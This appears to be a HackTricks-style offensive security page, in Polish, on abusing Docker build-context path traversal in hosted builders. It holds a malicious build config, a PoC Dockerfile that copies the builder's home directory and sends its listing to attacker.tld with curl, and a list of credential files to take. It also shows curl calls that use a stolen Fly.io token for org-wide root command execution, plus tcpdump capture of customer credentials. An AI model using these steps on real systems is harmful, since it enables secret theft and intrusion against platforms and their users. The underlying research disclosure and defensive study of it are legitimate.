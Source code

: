 # Nadużywanie Docker Build Context w hostowanych builderach (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Jeśli platforma CI/CD lub hosted builder pozwala contributorom określić ścieżkę build context i ścieżkę Dockerfile, często można ustawić context na katalog nadrzędny (np. "..") i uczynić pliki hosta częścią build context. Wówczas kontrolowany przez atakującego Dockerfile może użyć COPY i exfiltrate sekrety znalezione w katalogu domowym użytkownika buildera (np. ~/.docker/config.json). Skradzione registry tokens mogą też działać przeciwko providerowi poprzez control-plane APIs, umożliwiając org-wide RCE.

## Powierzchnia ataku

Wiele hostowanych usług builder/registry robi mniej więcej to przy budowaniu obrazów przesłanych przez użytkowników:
- Odczytuje konfigurację na poziomie repo, która zawiera:
- build context path (wysyłany do Docker daemon)
- Dockerfile path względny względem tego contextu
- Kopiuje wskazany katalog build context oraz Dockerfile do Docker daemon
- Buduje obraz i uruchamia go jako hostowaną usługę

Jeśli platforma nie kanonizuje i nie ogranicza build context, użytkownik może ustawić go na lokalizację poza repozytorium (path traversal), powodując, że dowolne pliki hosta czytelne dla build usera staną się częścią build context i będą dostępne do COPY w Dockerfile.

Praktyczne ograniczenia obserwowane w praktyce:
- Dockerfile musi znajdować się wewnątrz wybranego context path i jego ścieżka musi być znana z wyprzedzeniem.
- build user musi mieć dostęp do odczytu plików dołączonych do context; specjalne pliki urządzeń mogą zepsuć kopiowanie.

## PoC: Path traversal via Docker build context

Przykładowa złośliwa konfiguracja serwera deklarująca Dockerfile w katalogu nadrzędnym contextu:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Notatki:
- Użycie ".." często odnosi się do katalogu domowego użytkownika builder (np. /home/builder), który zazwyczaj zawiera wrażliwe pliki.
- Umieść swój Dockerfile w katalogu repo (np. repo "test" → test/Dockerfile), tak aby pozostał w obrębie rozszerzonego kontekstu nadrzędnego.

## PoC: Dockerfile to ingest and exfiltrate the host context
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Typowe cele odzyskiwane z $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Inne cache i pliki konfiguracyjne cloud/CLI (np. ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Uwaga: Nawet jeśli w repozytorium znajduje się plik .dockerignore, podatny mechanizm wyboru kontekstu po stronie platformy nadal kontroluje, co zostanie wysłane do daemon. Jeśli platforma skopiuje wybraną ścieżkę do daemon zanim oceni .dockerignore w repozytorium, pliki hosta nadal mogą zostać ujawnione.

## Pivot w chmurze z nadmiernie uprzywilejowanymi tokens (przykład: Fly.io Machines API)

Niektóre platformy wydają pojedynczy bearer token, który można użyć zarówno dla container registry, jak i control-plane API. Jeśli exfiltrate'ujesz registry token, spróbuj go użyć przeciwko provider API.

Przykładowe wywołania API przeciwko Fly.io Machines API używające skradzionego tokena z ~/.docker/config.json:

Wypisz aplikacje w organizacji:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Uruchom polecenie jako root wewnątrz dowolnej maszyny aplikacji:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Wynik: org-wide remote code execution we wszystkich hostowanych aplikacjach, jeśli token posiada wystarczające uprawnienia.

## Kradzież sekretów z kompromitowanych hostowanych usług

Mając exec/RCE na hostowanych serwerach, możesz pozyskać sekrety dostarczone przez klienta (API keys, tokens) lub przeprowadzić prompt-injection attacks. Przykład: zainstaluj tcpdump i przechwyć ruch HTTP na porcie 8080, aby wydobyć przychodzące poświadczenia.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Przechwycone żądania często zawierają poświadczenia klienta w nagłówkach, ciałach żądań lub parametrach zapytania.

## Źródła

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
